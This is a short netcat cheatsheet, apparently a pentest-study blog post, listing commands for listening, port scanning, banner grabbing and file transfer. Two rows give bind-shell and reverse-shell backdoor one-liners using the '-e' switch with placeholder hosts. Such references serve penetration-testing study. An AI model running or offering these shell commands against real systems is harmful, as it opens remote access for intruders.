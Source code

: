 Title: Yet another netcat cheatsheet
Summary: handy netcat commands
Category: cheatsheets
Tags: nettool, pwk
Date: 2020-03-23 13:15
Status: published

No|Description              |Command
--|-------------------------|--------------------------------------------------
1 |Simple listener          |nc -n IP -p PORT -wSECS
2 |Simple port probe        |nc HOST PORT _or_ nc -n IP PORT
3 |Simple file  receiver    |nc -nl IP -p PORT > OUT.FILE
4 |Simple file transmitter  |nc -n IP PORT < IN.FILE
5 |Capture tranferred data  |-o switch both for client and server
6 |Simple port scan         |nc -vnz -w1 IP LOPORT-HIPORT
7 |"Banner grabber"         |echo "" \| nc -vn -w1 IP LOPORT-HIPORT
8 |Trivial backdoor server  |nc -nl IP -p PORT -e SHELL
9 |Trivial reverse backdoor |nc SRV PORT -e shell _or_ nc -n IP PORT -e SHELL

 1. Just listen for incoming connections, a "chat" server
 2. Probe remote port, time out after SECS seconds
 3. Dump received data to file
 4. Transmit file to remote receiver
 5. Dump captured data in custom format. not catching protocols data
 6. Try remote ports in range between LOPORT and HIPORT, open ports are printed
 7. Similar to scan but tries to grab any human readable banners from services
 8. Simple backdoor, not all netcat versions may have been compiled with `-e`
    switch
 9. Simple reverse backdoor, `-e` note from above is obviously applicable

#### Common params
`-r` to randomize ports, can be used with port ranges  
`-u` to use UDP as a transport  
`-v` add verbosity  
`-T` set TOS (DSCP)  
`-q N` wait N seconds to quit after EOF  
`-i N` delay N seconds  
`-w N` time out after N seconds of connection attempt  

#### See also
 - [SANS cheatsheet](https://www.sans.org/security-resources/sec560/
netcat_cheat_sheet_v1.pdf)
